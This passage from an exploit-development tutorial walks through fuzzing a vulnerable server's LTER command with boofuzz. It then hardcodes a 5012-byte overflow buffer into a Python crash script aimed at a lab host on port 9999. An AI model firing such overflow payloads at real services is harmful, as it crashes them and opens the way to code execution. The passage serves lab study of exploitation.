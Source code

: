 We definitely want to use the feedback we got from the stack readout where we saw `"LTER /.../BBBB..."`, we will hardcode this into our exploit script. 

The next step we want to do is track down exactly how many bytes `boofuzz` sent and since we know we filled the registers with `B` values, it shouldn't be too hard to track down the exact payload the fuzzer sent. 

## Replicating the Crash

Examining the CLI output from `boofuzz`,

![](/assets/images/CTP/LTERboo.JPG)

We find that in our third payload we sent 5012 bytes and they were all `B` values prepended by `LTER /.../`. So let's hardcode this into our `exploit.py` and see if we can get the program to crash without the fuzzer. This is our exploit script at this point:
```python
#!/usr/bin/python

import socket
import os
import sys

host = "192.168.1.201"
port = 9999

buffer = "A" * 5012

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

And we get it to crash, awesome
